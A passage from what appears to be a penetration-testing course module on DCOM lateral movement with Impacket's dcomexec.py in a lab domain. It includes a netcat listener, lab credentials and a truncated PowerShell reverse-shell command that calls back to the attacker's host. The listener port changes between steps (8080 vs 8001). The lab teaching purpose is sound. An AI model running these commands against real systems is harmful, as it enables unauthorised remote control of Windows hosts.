 PS C:\Windows\system32&gt; hostname
SRV02
</code></pre>
<h2>Lateral Movement From Linux</h2>
<p>To perform <code>DCOM</code> lateral movement from Linux systems we must use the <a href="https://github.com/fortra/impacket">Impacket</a> toolset which is a suite of Python libraries designed for interacting with network protocols. In this section, we will be using <a href="https://github.com/fortra/impacket/blob/master/examples/dcomexec.py">dcomexec.py</a>.</p>
<h3>dcomexec.py</h3>
<p><code>dcomexec.py</code> from Impacket provides an interactive shell on a remote Windows host, similar to <code>wmiexec.py</code>, but utilizes different <code>DCOM</code> endpoints for command execution. It operates over TCP port 445, retrieving output via the <code>ADMIN$</code> share. This tool supports <code>DCOM</code> objects like <code>MMC20.Application</code>, <code>ShellWindows</code>, and <code>ShellBrowserWindow</code>, offering alternative remote execution methods.</p>
<p>We can leverage <code>dcomexec.py</code> to connect to a remote host and get code execution. Let's start a listener with <code>Netcat</code>:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
</code></pre>
<p>Now, we will use the user <code>Josias</code> and the password <code>Jonny25</code> to connect to <code>SRV02</code>, this user is a member of the <code>Distributed COM Users</code> which have the necessary permissions to execute <code>dcomexec.py</code>, we must specify the <code>DCOM</code> object we wish to use with <code>-object</code>, for this example, we will be using <code>MMC20</code>, after that we must specify the domain, user, and password along with the target IP address, <code>&lt;domain&gt;/&lt;user&gt;:&lt;password&gt;@&lt;ip&gt;</code>, finally, we can pass our payload:</p>
<p>We will be using a PowerShell reverse shell payload from <a href="https://revshells.com">revshells.com</a>.</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains4 -q python3 dcomexec.py -object MMC20 INLANEFREIGHT/Josias:<a class="__cf_email__" data-cfemail="d69cb9b8b8afe4e396e7e1e4f8e4e6f8e6f8e3e4" href="/cdn-cgi/l/email-protection">[email protected]</a> "powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==" -silentcommand
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> In case the TCP port 445 is not available, we can use the option <code>-no-output</code>. This will disable the output and it won't try to use port 445 for connections.</p>
</div>
</div>
<p>As we can see, we have successfully gained access to system:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lnvp 8001
listening on [any] 8001 ...
connect to [10.10.14.207] from (UNKNOWN) [10.129.229.245] 49869

PS C:\windows\system32&gt; whoami
inlanefreight\josias
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> Alternatively, <code>dcomexec.py</code> also supports <code>ShellWindows</code> &amp; <code>ShellBrowserWindow</code> objects; we can substitute MMC20 and if those are enabled, it will allow us to perform code execution. </p>
</div>
</div>
<h2>Conclusion</h2>
<p><code>DCOM</code> provides powerful capabilities for remote interaction and command execution in Windows environments, significantly aiding lateral movement. By utilizing <code>DCOM</code> objects like <code>ShellWindows</code> and <code>ShellBrowserWindow</code>, we can gain control over Windows Explorer instances and perform actions such as file manipulation and command execution. The <code>MMC20.Application</code> object further allows command execution via Microsoft Management Console (MMC), enhancing remote administrative capabilities. Knowing these methods and techniques can be very helpful to improve our penetration testing assignments.</p>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">